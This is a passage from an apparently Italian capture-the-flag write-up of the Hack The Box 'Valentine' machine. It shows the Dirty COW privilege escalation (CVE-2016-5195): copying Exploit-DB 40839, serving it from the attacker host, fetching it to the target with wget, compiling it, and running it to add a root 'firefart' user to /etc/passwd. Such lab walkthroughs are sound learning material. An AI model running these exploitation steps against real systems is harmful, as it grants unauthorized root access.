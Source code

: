 Colpiamo il 40839 e tiriamo su un server per poterlo scaricare sulla macchina target
```bash
┌──(root㉿kali)-[/home/kali/htb/valentine]
└─# searchsploit -m 40839
  Exploit: Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)
      URL: https://www.exploit-db.com/exploits/40839
     Path: /usr/share/exploitdb/exploits/linux/local/40839.c
    Codes: CVE-2016-5195
 Verified: True
File Type: C source, ASCII text
Copied to: /home/kali/htb/valentine/40839.c

┌──(root㉿kali)-[/home/kali/htb/valentine]
└─# python -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

#Lo scarichiamo sulla macchina target,lo compiliamo  e gli diamo i permessi di esecuzione 
hype@Valentine:~$ wget http://10.10.14.53:8000/40839.c     
--2023-05-17 05:20:23--  http://10.10.14.53:8000/40839.c
Connecting to 10.10.14.53:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4814 (4.7K) [text/x-csrc]
Saving to: `40839.c'

100%[================================================================================>] 4,814       --.-K/s   in 0.004s  

2023-05-17 05:20:23 (1.15 MB/s) - `40839.c' saved [4814/4814]

hype@Valentine:~$ ls
40839.c  Documents  LinEnum.sh                    Music     Public     user.txt
Desktop  Downloads  linux-exploit-suggester-2.pl  Pictures  Templates  Videos
hype@Valentine:~$ gcc -pthread 40839.c -o dirty -lcrypt
hype@Valentine:~$ file dirty 
dirty: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x937c2db535a9f60590676e928521f13a7f2280bf, not stripped
hype@Valentine:~$ chmod +x dirty 
```

Possiamo esegurilo (scegliamo una password)
```bash
hype@Valentine:~$ ./dirty 
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
firefart:fiRbwOlRgkx7g:0:0:pwned:/root:/bin/bash

mmap: 7f9a0fa78000


madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password '123'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password '123'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
hype@Valentine:~$ 
```